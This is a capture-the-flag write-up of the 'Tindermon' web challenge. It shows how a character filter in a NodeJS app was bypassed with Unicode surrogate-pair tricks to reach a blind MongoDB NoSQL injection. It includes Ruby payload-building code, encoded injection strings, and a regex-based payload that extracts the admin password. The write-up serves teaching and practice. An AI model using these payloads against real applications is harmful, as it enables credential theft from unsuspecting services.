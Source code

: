 ## Tindermon (Web)
This weekend, Navaja Negra 8 CTF started, organized by ka0labs.org. This web challenge has the following statement:

Get the admin password! There is a WAF and it is NodeJS... Easy peasy!
[http://tindermon.ka0labs.org](http://tindermon.ka0labs.org/)

### Intro
This challenge presents us a classic NodeJS + Express app. Source code of index is:
```html
<html>
<-- WebSite Created by the admin pikachu --!>
<title>Welcome to our Pokemon-Tinder!!!!!</title>
<body  style="background: pink">
<center><h1>List of Users Registered in Tindermon</h1>
<br><br><img  src="[/avatar/magikarp](http://tindermon.ka0labs.org/avatar/magikarp)"  height="480"  width="290">
<img  src="[/avatar/bulbasaur](http://tindermon.ka0labs.org/avatar/bulbasaur)"  height="480"  width="290">
<img  src="[/avatar/diglet](http://tindermon.ka0labs.org/avatar/diglet)"  height="480"  width="290">
</center></body>
</html>
```

Two interesting things here:

- The admin username is pikachu
- There's a route /avatar/```username``` which, when visited, redirects us to /img/``ìd``.jpg where id seems to be the user id.

```
GET /avatar/magikarp HTTP/1.0

-> 302 Found, Location: /imgs/1.jpg
```

#### Not that easy, there's a "WAF"
Testing some characters show us that there's some kind of check for the following chars:
```" ' . (space)```
Why those characters and not others like > or <? Because (not-so-obviously) what they are trying to avoid is a NoSQL Injection, probably on a MongoDB database.

So logic seems to be:

- Express router process the request.
- Controller search for the URL parameter, which is everything following /avatar/ to the next "/" and is intended to be a username.
- Looks for the username in MongoDB, if exists, returns a 302 redirection to users image path.

Easy right? We are in front a NoSQL Injection challenge like many others, but this time we need to figure out how to bypass NodeJS checks.

Well, at first, some tricks come to my mind, such as Orange Tsai's 2017 Black Hat presentation about  NodeJS inconsistency on parsing Full-Width Characters: https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf

#### Reading a bit about how JavaScript Unicode decoding standards works.

This article give us some keys https://mathiasbynens.be/notes/javascript-unicode. As the article says, for backwards compatibility with ES5 and older standards,  unicode are divided in groups of two, each one of 2 bytes, this are called "surrogate pairs".

So, for example, the emoji 💩 becomes ```\uD83D\uDCA9```. How this split is done? The answer is, again, in the same blog: https://mathiasbynens.be/notes/javascript-encoding
```javascript
H = Math.floor((C - 0x10000) / 0x400) + 0xD800  
L = (C - 0x10000) % 0x400 + 0xDC00
```

Cool, at this point a hint is released, the hint are some emojis, so it's clear, we need some Unicode trick to bypass NodeJS checks. But, do not forget, those unicodes needs to make sense for MongoDB, which is the final endpoint of our string.

#### Error, error, error, error, victory!
After a lot of testing and a key of my man X-C3LL, seems that MongoDB is reading the least significant byte of each surrogate pair, well, let's test if this is true using ```"||"1"=="1``` payload,  but remember, we can't just use ```"```, so we need to figure out a unicode which contains 0x22 and 0x7C as their least significant bytes of each surrogate pair.

```ruby
# This receives a string of two characters, and looks for a unicode hex who's surrogate pairs least significant byte, match each character hex representation.
def uni(find)
  for i in 0...0xFFFFF
    h = (((i - 0x10000) / 0x400) + 0xD800).to_i.to_s(16)[-2..-1].to_i(16).chr
    l = ((i - 0x10000) % 0x400 + 0xDC00).to_i.to_s(16)[-2..-1].to_i(16).chr

    if(h == find[0] && l == find[1])
      return URI.encode [i.to_i].pack('U')
    end
  end
end
```
A return without the URI encode for the string ```"|```, the unicode ```\u{1887c}```  when divided in surrogate pairs:
```
H: 0xD822
L: 0xDC7C
```
Their least significant byte's match with ```"```and ```|``` respectively.

So we got some restrictions to bypass using this trick, those restrictions are the characters forbidden by backend controller, a bit of code helps me to create strings based on this trick for the restricted characters:

```ruby
# Takes pairs of characters where a forbidden char is and
# converts it to unicode representation.
def convert_forbidden(string)
  final_string = ""
  skip = false
  for i in 0..string.length-1 do
      if !skip then
        if $waf.include? string[i] then
          res = uni(string[i] + string[i+1])
          final_string += res
          skip = true
        else
          final_string += URI.encode string[i]
        end
      else
        skip = false
      end
  end

  return final_string.gsub("/","%2F").gsub("[","%5B").gsub("]","%5D").gsub("&","%26")
end
```

For the string ```"||"1=="1``` this returns: ```%F0%98%A1%BC%7C%F0%98%A0%B1%F0%98%A0%BD=%F0%98%A0%B1```

Testing on the live application, it works!! ```/avatar/%F0%98%A1%BC%7C%F0%98%A0%B1%F0%98%A0%BD=%F0%98%A0%B1``` returns 1.jpg, the same process but using "1"=="0" instead of "1" =="1" returns us 404.jpg. So we can confirm the injection.

#### Exploiting Blind NoSQL Injection 
Now we need to write a bit more code to exfiltrate data, byte by byte. After some digging and refresh of MongoDB basics, it ended up on this payload:

```pikachu"&&(this.password.match(/^_string_/))=="_string_"||"1"=="0```

This will return true only if the string starts with the _string_ value. Look at the script to get more details if you are unfamiliar with Blind techniques.

#### Run and gimme the flag!
Running the final script starts exfiltrating us the password for the user pikachu, character by character, but we know that flag starts with ```nn8ed{```, so some work is done:
```
Found! nn8ed{T
Found! nn8ed{Th
Found! nn8ed{Thi
... (lot of time)
Found! nn8ed{This.Old.Challenge.With.Unic0de}
```

So there's the flag. Super funny challenge, I learned a lot about how NodeJS 8 works with Unicode and how inconsistencies at encoding treatment can compromise a system. 

Congratz to ka0labs.org for this great challenge!
